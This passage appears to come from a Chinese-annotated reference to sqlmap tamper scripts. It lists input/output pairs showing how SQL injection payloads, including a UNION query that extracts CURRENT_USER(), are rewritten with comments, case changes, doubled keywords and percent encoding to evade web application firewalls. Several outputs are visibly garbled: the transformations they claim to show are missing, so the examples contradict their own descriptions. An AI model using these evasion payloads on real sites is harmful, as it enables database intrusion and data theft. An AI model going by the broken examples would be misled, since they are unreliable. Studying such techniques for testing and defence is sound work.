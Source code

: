 * Input: SELECT * FROM users WHERE id=1
* Output: SELECT * FROM users WHERE id LIKE 1
  
##### halfversionedmorekeywords.py在每个关键字前添加条件注释

  Example:
* Input: value' UNION ALL SELECT CONCAT(CHAR(58,107,112,113,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,97,110,121,58)), NULL, NULL# AND 'QDWa'='QDWa
* Output: value'--
  Requirement:
* MySQL
  
##### modsecurityzeroversioned.py 条件注释，0000

  Example:
* Input: 1 AND 2>1--
* Output: 1 --
  Requirement:
* MySQL
  
##### multiplespaces.py 添加多个空格

  Example:
* Input: UNION SELECT
* Output:  UNION   SELECT
  
##### nonrecursivereplacement.py 可以绕过对关键字删除的防注入（这个我也不知道怎么说好，看例子。。。）

  Example:
* Input: 1 UNION SELECT 2--
* Output: 1 UNUNIONION SELSELECTECT 2--
  
##### percentage.py 在每个字符前添加百分号（%）

  Example:
* Input: SELECT FIELD FROM TABLE
* Output: %S%E%L%E%C%T %F%I%E%L%D %F%R%O%M %T%A%B%L%E
  Requirement:
* ASP
  
##### randomcase.py 随即大小写

  Example:
* Input: INSERT
* Output: InsERt
  
##### randomcomments.py 随机插入区块注释

  Example:
  'INSERT' becomes 'INSERT'

##### securesphere.py 语句结尾添加“真”字符串

  Example:
* Input: AND 1=1
* Output: AND 1=1 and '0having'='0having'
  